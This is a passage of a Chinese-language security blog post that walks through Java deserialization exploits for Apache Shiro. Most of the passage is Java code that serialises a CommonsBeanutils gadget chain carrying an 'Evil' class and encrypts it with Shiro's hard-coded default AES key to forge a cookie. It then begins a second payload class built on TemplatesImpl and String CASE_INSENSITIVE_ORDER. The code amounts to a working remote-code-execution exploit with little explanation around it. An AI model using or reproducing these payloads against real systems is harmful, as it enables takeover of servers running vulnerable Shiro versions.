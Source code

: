 ```
        setFieldValue(queue, "queue", new Object[]{obj, obj});

        // ==================
        // 生成序列化字符串
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();

        return barr.toByteArray();
    }

    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(Evil.class.getName());

        byte[] payloads = new CommonsBeanutilsAttrCompare().getPayload(clazz.toBytecode());

        AesCipherService aes = new AesCipherService();
        byte[] key = java.util.Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");

        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.printf(ciphertext.toString());
    }

}

```

最终实际结果

![attrcompare](https://gitee.com/samny/images/raw/master/summersec//5u12er5ec/5u12er5ec.gif)



----

### String#CASE_INSENSITIVE_ORDER

该类在p牛文章详细介绍了，这里直接贴代码吧。

```
package summersec.shirodemo.Payload;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

/**
 * @ClassName: CommonsBeanutils1Shiro
 * @Description: TODO
 * @Author: Summer
 * @Date: 2021/5/19 16:23
 * @Version: v1.0.0
 * @Description: 参考https://www.leavesongs.com/PENETRATION/commons-beanutils-without-commons-collections.html
```